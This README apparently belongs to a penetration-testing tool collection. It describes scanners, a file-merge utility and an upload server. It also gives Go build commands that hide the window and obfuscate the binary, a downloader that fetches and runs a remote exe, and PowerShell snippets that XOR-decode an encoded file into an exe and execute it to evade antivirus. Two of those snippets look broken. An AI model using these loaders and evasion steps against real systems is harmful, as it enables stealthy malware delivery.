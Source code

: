# Notes
Golang compile with no window
```
GOOS=windows GOARCH=amd64 go build  -ldflags -H=windowsgui -o file.exe file.go
```
Obfuscate build
```
GOOS=windows GOARCH=amd64 ~/go/bin/garble build  -ldflags="-w -s -H=windowsgui" -o file.exe file.go
```

# Anew (python3)

Compares old file to new file, if new file contains lines that dont exist in the old file it will print them to screen for piping into other tools.

# Nessus Merge (python3)

Combines two nessus files into one.

# Hostscan (bash)

Basic scanner for all hosts, can be used as `hostscan.sh 192.168.1.1 "--top-ports 100" "--top-ports 20"` to define the nmap ports you want to scan

# Fileupload, server and client (go)
Small golang script that will allow file uploads to the current dir over https using a baked in key. Client is formatted to perform the upload for you or you can use curl:
```
curl -sk -X POST -H "X-API-Key: Pentest12345" -F "file=@test.txt" -F "filename=test.txt" https://127.0.0.1:8443/files
```

# Multi Downloader (go)
Will try and download an exe from a remote webserver using 4 methods, if any method is successful it will run the file and exit the program, if one fails it will move to the last and finally use certutil (which flags defender) as a last attempt.

# Encode / Decode (go)
## Encode
Encodes a file with xor to file.txt. 
## Decode
Decodes a file.txt with xor to file.exe then runs

## Decode Powershell script
```
$encoded = Get-Content -Path .\file.txt
$decoded = [System.Convert]::FromBase64String($encoded)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decodedBytes = for ($i = 0; $i -lt $decoded.Length; $i++) {$decoded[$i] -bxor $key[$i % $key.Length]}
[System.IO.File]::WriteAllBytes(".\file.exe", $decodedBytes)
Start-Process -FilePath .\file.exe

or 

$encodedFile = Get-Content -Path "file.txt" -Raw
$decodedBytes = [System.Convert]::FromBase64String($encodedFile)
$key = [System.Text.Encoding]::ASCII.GetBytes("Pentest12345")
$decoded = [char[]]$decodedBytes
for ($i = 0; $i -lt $decoded.Length; $i++) {
    $decoded[$i] = [char]([byte]$decoded[$i] -bxor $key[$i % $key.Length])
}
$decoded | Out-File -FilePath "file.exe"

or

$encoded = Get-Content "file.txt"
$decoded = [System.Convert]::FromBase64String($encoded)
$key = "mysecretkey"
$decodedBytes = $decoded -bxor $key
Set-Content -Path "file.exe" -Value $decodedBytes -Encoding Byte


```

# Cname Scanner (go)
Checks  a list of domains from stdin, checks the cname, if the cname does not contain the domain name it prints the domain and the cname.
```
cat domains.txt | go run cnamescanner.go
```

# Get HTTP Response (go)
Script that takes a list of urls from stdin, requests the url and writes the response to a file called responses.txt in the format url,base64encoded(response.body) which is useful for monitoring sites or taking a snapshot of the responses for future tests.
